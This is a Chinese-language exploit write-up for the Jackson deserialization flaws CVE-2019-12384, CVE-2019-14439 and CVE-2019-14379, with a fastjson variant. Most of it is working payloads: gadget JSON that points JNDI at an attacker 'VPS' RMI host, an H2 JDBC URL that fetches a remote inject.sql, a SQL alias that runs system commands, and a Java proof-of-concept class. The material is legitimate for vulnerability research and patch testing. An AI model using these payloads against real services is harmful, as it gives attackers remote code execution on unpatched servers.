






# CVE-2019-12384 2019/07/22 及其补丁绕过 CVE-2019-14439、CVE-2019-14379

## 概述

这个漏洞的利用有两个特别鸡肋的点：

第一点， 它需要依赖两个jar才能造成rce漏洞；除去jackson自身的jar包以外还需要logback-core和h2;相同的套路在fastjson也是可以造成RCE的,同样也依赖jar包

靶场使用的 logback-core和h2：

		<!--https://mvnrepository.com/artifact/ch.qos.logback/logback-core -->
		<dependency>
		    <groupId>ch.qos.logback</groupId>
		    <artifactId>logback-core</artifactId>
		    <version>1.3.0-alpha4</version>
		</dependency>
		
		<!--https://mvnrepository.com/artifact/com.h2database/h2 -->
		<dependency>
		    <groupId>com.h2database</groupId>
		    <artifactId>h2</artifactId>
		    <version>1.4.199</version>
		    <scope>test</scope>
		</dependency>
		<dependency>
		    <groupId>com.h2database</groupId>
		    <artifactId>h2</artifactId>
		    <version>1.4.199</version>
		    <scope>compile</scope>
		</dependency> 

第二点， 注意这个漏洞的触发，是在序列化恶意的对象的时候触发的，而jackjson大部分情况在web中都是用于处理去反序列化前端传入的json数据的。

## 利用

#### 利用点1 CVE-2019-12384 补丁绕过 payload

	ch.qos.logback.core.db.JNDIConnectionSource

针对CVE-2019-12384漏洞的绕过利用方式。 这个CVE 主要用jdbc的 SSRF 和 RCE 调用链 

//jndi绕过链

 	payload = "[\"ch.qos.logback.core.db.JNDIConnectionSource\", {\"jndiLocation\":\"rmi://VPS:1099/TouchFile\"}]";

 

#### 利用点2  SSRF

 

(这种利用方式我还不是很理解)

	
	 payload = "[\"ch.qos.logback.core.db.DriverManagerConnectionSource\", {\"url\":\"jdbc:h2:tcp://localhost:2333/~/test\"}]";

因为我myeclipse装在windows环境，所以在windows安装个 nc 监听。

下载地址：https://eternallybored.org/misc/netcat/

https://eternallybored.org/misc/netcat/netcat-win32-1.12.zip

[利用 Gopher 协议拓展攻击面-by 长亭科技](https://blog.chaitin.cn/gopher-attack-surfaces/)

#### 利用点3 DriverManagerConnectionSource   RCE 

DriverManagerConnectionSource 调研远端恶意sql，里面构造了恶意方法，可执行系统命令

payload:

	payload = "[\"ch.qos.logback.core.db.DriverManagerConnectionSource\", {\"url\":\"jdbc:h2:mem:;TRACE_LEVEL_SYSTEM_OUT=3;INIT=RUNSCRIPT FROM 'http://vps:8000/inject.sql'\"}]";

恶意sql insert.sql
	
	CREATE ALIAS SHELLEXEC AS $$ String shellexec(String cmd) throws java.io.IOException {
	        String[] command =  {cmd};
	        java.util.Scanner s = new java.util.Scanner(Runtime.getRuntime().exec(command).getInputStream()).useDelimiter("\\A");
	        return s.hasNext() ? s.next() : "";  }
	$$;
	CALL SHELLEXEC('calc.exe')

启动一个恶意服务器：

	python -m SimpleHTTPServer 8000

服务器下放恶意文件 insert.sql，根据靶机系统linux和windows修改不同的执行代码

向靶机服务器发送poc,

 

成功弹出计算器。

## fastjson 也受影响

具体版本没调查清楚。

FastJsonTest.java

	import com.alibaba.fastjson.JSON;
	import com.alibaba.fastjson.JSONObject;
	import com.alibaba.fastjson.parser.ParserConfig;
	
	public class FastJsonTest {
	public static void main(String[] args){
	        ParserConfig.getGlobalInstance().setAutoTypeSupport(true);
	        String payload = "{\"@type\":\"ch.qos.logback.core.db.DriverManagerConnectionSource\", \"url\":\"jdbc:h2:mem:;TRACE_LEVEL_SYSTEM_OUT=3;INIT=RUNSCRIPT FROM 'http://localhost/inject.sql'\"}";
	        JSONObject json = JSON.parseObject(payload);
	        json.toJSONString();
	    }
	}

payload:

 	String payload = "{\"@type\":\"ch.qos.logback.core.db.DriverManagerConnectionSource\", \"url\":\"jdbc:h2:mem:;TRACE_LEVEL_SYSTEM_OUT=3;INIT=RUNSCRIPT FROM 'http://vps/inject.sql'\"}";

[fastjson影响的参考资料](https://www.freebuf.com/vuls/209394.html)

## 参考资料

[Jackson CVE-2019-12384: anatomy of a vulnerability class](https://blog.doyensec.com/2019/07/22/jackson-gadgets.html)

[l1nk3r师傅的分析](https://www.cnblogs.com/iyiyang/articles/11360842.html)

## CVE-2019-14439   190807

为针对CVE-2019-12384漏洞的绕过利用方式

	payload = "[\"ch.qos.logback.core.db.JNDIConnectionSource\", {\"jndiLocation\":\"rmi://VPS:1099/TouchFile\"}]";

#### 影响版本

jackson-databind < 2.9.9.2

jackson-databind < 2.10.0

jackson-databind < 2.7.9.6

jackson-databind < 2.8.11.4

[CVE-2019-14439](https://srcincite.io/blog/2019/08/07/attacking-unmarshallers-jndi-injection-using-getter-based-deserialization.html)

对于这篇文章https://nvd.nist.gov/vuln/detail/CVE-2019-14361 说的 CVE-2019-14361 已被驳回

## CVE-2019-14379

payload

    String jsonStr2 = "[\"net.sf.ehcache.transaction.manager.DefaultTransactionManagerLookup\",{\"properties\":{\"jndiName\":\"rmi://127.0.0.1:1099/ExportObject\"}}]";

#### 影响版本

jackson-databind < 2.9.9.2

jackson-databind < 2.10.0

jackson-databind < 2.7.9.6

jackson-databind < 2.8.11.4

[参考资料](https://mp.weixin.qq.com/s?__biz=MzA3NjU5MTIxMg==&mid=2650561407&idx=1&sn=80abebd21753292995e7e7927eeface3&chksm=8756027cb0218b6a53d5b70379b6a669c41d8bfc226dde7e533f454c2bcc58d270c5d426c997&mpshare=1&scene=1&srcid=0120wQQH1ltJU5WfqajksGld&sharer_sharetime=1579520413613&sharer_shareid=0bc656b40f7ceaf4f41b618b9b3d6cd8#rd)
